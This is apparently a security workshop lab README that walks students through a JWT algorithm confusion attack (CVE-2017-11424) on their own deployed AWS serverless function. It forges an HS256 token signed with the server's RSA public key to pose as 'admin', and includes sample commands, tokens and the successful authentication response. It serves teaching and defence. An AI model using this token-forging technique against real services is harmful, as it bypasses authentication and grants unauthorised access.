 # Algorithm Confusion

You can read more about this flaw here: 
* [CVE-2017-11424](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=873244)
* [Auth0 Blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## Instructions
* In your image, navigate over to `/root/labs/Serverless-Workshop/`
* Now run `pipenv shell`
* In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`
* Run `sls plugin install -n serverless-python-requirements`
* Wait for instructor to explain the contents of the lab
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/Algo-Confusion/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely. you should see something like this: 

```bash
Serverless: Stack update finished...
Service Information
service: we45-sls-workshop-algo-confusion
stage: dev
region: us-west-2
stack: we45-sls-workshop-algo-confusion-dev
resources: 18
api keys:
  None
endpoints:
  GET - https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
  GET - https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify
functions:
  init-algo: we45-sls-workshop-algo-confusion-dev-init-algo
  verify-algo: we45-sls-workshop-algo-confusion-dev-verify-algo
```

Now run: 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

You should get a response like so: 

```json
{
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImF1dGhlbnRpY2F0ZWQiOmZhbHNlfQ.Nz39CRtIFrCsX76B9Dq0aEOSsWQ9UwDFNqla1Xj1PHiIOSh0WFcJHWEO1NF7YKq6Uv8C__tKQA2fg3qH_m7gLSLkQSf2eGRAubJXMU2XRRlkhMKvI6iksEnjUBvRAbt_UhN5mDcXHjBpX_1q2wadmVbiBz6YkfkffdTMas7ywLFK43tKvL9Iw32fRgoP__K93EaYdvT8Wxm0LdMU_RxmBqjrf4nwTrGynwoWqc2ZRKYa7tZMNCGNIEiNQxK1b4p39MpZqwhIVkFsFMNwd_jECE0nfzcskTQdtZG4KC1WLSnOB7XNjWwAM_NUujCp_sB_iTcEGQlBfo-Oxx5yULXSBA"
}
```

Now run `python token_gen.py public.pem`. You should see a response like so: 

```bash
[+] Token is:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
``` 

Copy the token and run: 

```bash
http GET https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

You should see a response like this: 

```bash
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 40
Content-Type: application/json
x-amzn-RequestId: e66e15fb-b1b2-11e9-8818-53f47d545fa4

{
    "authenticated": true,
    "user": "admin"
}
```

### Teardown

* In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`
* Run `sls remove` to remove stack